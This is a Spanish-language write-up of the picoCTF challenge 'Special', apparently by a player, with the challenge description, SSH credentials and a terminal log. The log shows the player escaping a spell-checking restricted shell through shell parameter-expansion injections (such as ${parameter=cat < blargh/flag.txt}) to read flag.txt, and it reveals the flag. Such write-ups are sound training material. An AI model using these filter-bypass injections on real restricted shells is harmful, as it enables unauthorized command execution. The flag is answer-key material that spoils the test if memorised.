 # Retos picoCTF

# Level Special

## Objetivo
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.
ssh -p 63899 ctf-player@saturn.picoctf.net
The password is d137d16e
## Solución
```
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh -p 63899 ctf-player@saturn.picoctf.net

The authenticity of host '[saturn.picoctf.net]:63899 ([13.59.203.175]:63899)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:14: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:63899' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ${parameter?ls}
${parameter?ls} 
sh: 1: parameter: ls
Special$ ${:ls}
${:ls} 
sh: 1: Bad substitution
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh} 

${parameter=cd blargh} 
Special$ Traceback (most recent call last):
  File "/usr/local/Special.py", line 19, in <module>
    elif cmd[0] == '/':
IndexError: string index out of range
Connection to saturn.picoctf.net closed.
                                                                                              
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh -p 63899 ctf-player@saturn.picoctf.net

ctf-player@saturn.picoctf.net's password: 
Permission denied, please try again.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Dec  2 03:52:00 2024 from 127.0.0.1
Special$ ${parameter?ls}
${parameter?ls} 
sh: 1: parameter: ls
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
                                                                                              
┌──(kali㉿kali)-[~/Downloads]
└─$ 

```
## Referencias
use el siguiente tutorial para completar el reto https://josephkimiri.github.io/posts/Special/

